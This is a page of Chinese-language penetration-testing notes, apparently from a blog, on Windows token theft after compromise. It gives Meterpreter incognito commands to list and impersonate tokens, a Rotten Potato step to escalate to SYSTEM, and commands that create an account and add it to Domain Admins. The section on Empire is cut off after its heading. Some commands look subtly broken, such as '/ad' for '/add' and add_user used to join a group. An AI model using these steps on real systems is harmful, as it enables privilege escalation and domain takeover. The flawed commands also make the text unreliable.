 ## [](#%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)令牌窃取

### [](#msf-%E4%B8%8A%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)msf 上的令牌窃取

假设已经获取了 meterpreter shell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```cmd<br>use incognito<br>list_tokens -u<br>``` |

在 `incognito` 中调用 `impersonate_token`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>impersonate_token DESKTOP-DUNPKQ9\\Administrator<br>``` |

`注意`：在输入主机名 `\` 用户名时，需要输入两个反斜杠

### [](#rotten-potato-%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83)Rotten Potato 本地提权

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use incognito<br>list_tokens -u<br>execute -HC -f rottenpotato.exe<br>impersonate_token "NT AUTHORITY\\SYSTEM"<br>``` |

### [](#%E6%B7%BB%E5%8A%A0%E5%9F%9F%E7%AE%A1%E7%90%86%E5%91%98)添加域管理员

假设网络中设置了域管进程，在 `meterpreter shell` 中迁移进程至域管进程中

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```cmd<br>net user test test123!@# /ad /domain<br>net group "domain admins" test /ad /domain<br>``` |

同样，在 `meterpreter shell` 中可以使用 `incognito` 来模拟域管理员，然后通过迭代系统中所有可用的身份验证令牌来添加域管理员。

在活动的 `meterpreter shell` 中执行如下命令：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>add_user test test!@#123 -h 1.1.1.2<br>``` |

执行如下命令，将该账户加到域管理员组中。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>add_user "Domain Admins" test -h 1.1.1.2<br>``` |

### [](#empire-%E4%B8%8B%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96%E5%88%86%E6%9E%90)Empire 下的令牌窃取分析

